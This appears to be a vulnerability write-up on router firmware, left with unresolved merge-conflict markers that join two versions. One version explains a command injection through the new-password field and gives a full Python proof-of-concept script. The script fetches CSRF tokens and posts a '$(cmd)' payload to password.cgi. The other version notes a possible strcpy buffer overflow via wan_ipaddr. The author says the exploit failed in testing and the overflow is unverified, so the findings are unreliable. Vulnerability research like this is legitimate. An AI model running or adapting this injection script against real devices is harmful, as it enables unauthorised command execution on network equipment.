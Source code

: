 <<<<<<< HEAD
First, in function sub_31D4C, "http_passwd" is obtained through sub_16B04("sysNewPasswd") and stored in v26, then the value of v26 is stored in nvram through acosNvramConfig_set, and then the value of nvram is read. Finally, in function sub_6A384(), v6 through function acosNvramConfig_get() obtain the "http_passwd",then stacat() to v16, causing a command injection. 
![Alt text](1696075866626.png)
![Alt text](1696076104414.png)
and the poc is following:
<pre>
#!/usr/bin/python3

import requests
import base64
import re

target = input("Enter Target IP : ")
username = input("Enter Target username : ")
passwd = input("Enter Target passwd : ")
cmd = input("Enter you want cmd : ")

username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/PWD_password.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close",  "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/password.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "sysOldPasswd": "Qwer1234", "sysNewPasswd": "$(" + cmd + ")"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')

</pre>
However, nothing happens after I use the test case. I am very confused and hope you can discuss it with me.
=======
First, in function 1E5B4, "wan_ipaddr" is obtained through sub_16B04() and stored in v54, then the value of v54 is stored in nvram, and then the value of nvram is read. Finally, strcpy() assigns the value to variable v190, causing a buffer overflow. 
![Alt text](1696041080445.png)  
![Alt text](1696041080448.png)  
![Alt text](1696041080442.png)  

This is just an example and one step. Whether this is a real error requires further code context viewing and dynamic verification.
>>>>>>> c2268aff52e56c4cde16fa22e2aece3bf39988b7
